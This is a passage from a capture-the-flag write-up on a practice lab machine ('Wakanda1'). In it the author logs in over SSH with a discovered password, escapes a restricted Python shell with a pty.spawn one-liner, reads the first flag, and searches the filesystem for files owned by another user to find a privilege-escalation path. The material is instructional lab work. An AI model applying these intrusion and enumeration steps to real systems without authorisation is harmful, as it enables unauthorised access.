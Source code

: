 Ah a password! I already had a username, so I figured the two were credentials for logging into something. Since the only other service I found was SSH on port 3333, it made sense to give that a shot:

```
root@kali:~/pwn# ssh -p3333 mamadou@`cat target.txt`
mamadou@192.168.56.102's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  3 15:53:29 2018 from 192.168.56.1
Python 2.7.9 (default, Jun 29 2016, 13:08:31)
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

Success, kind of. Looks like it dropped me into a Python shell. No problem, that was easy to escape by spawning a shell on a pseudo-terminal:

```
>>> import pty;pty.spawn("/bin/bash")
>>> import pty;pty.spawn("/bin/bash")
mamadou@Wakanda1:~$ id
uid=1000(mamadou) gid=1000(mamadou) groups=1000(mamadou)
mamadou@Wakanda1:~$ ls -l
total 4
-rw-r--r-- 1 mamadou mamadou 41 Aug  1 15:52 flag1.txt
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
```

The first flag was right there, owned by mamadou and so it was readble. Only two flags to go. Since the name of the flags were given in the challenge description I decided to just use the find command to look for it:

```
mamadou@Wakanda1:~$ find / -name flag2.txt 2>/dev/null
/home/devops/flag2.txt
```

So a second user called devops exists. I quickly checked /etc/passwd and found that no other users (other than root) existed on the system. I started enumerating the system to look for any misconfigurations or any odd files that would allow me to privilege escalate to the devops user. Something finally came up when I decided to look for any files belonging to devops:

```
mamadou@Wakanda1:~$ find / -user devops 2>/dev/null
/srv/.antivirus.py
/tmp/test
/home/devops
/home/devops/.bashrc
/home/devops/.profile
/home/devops/.bash_logout
/home/devops/flag2.txt
```
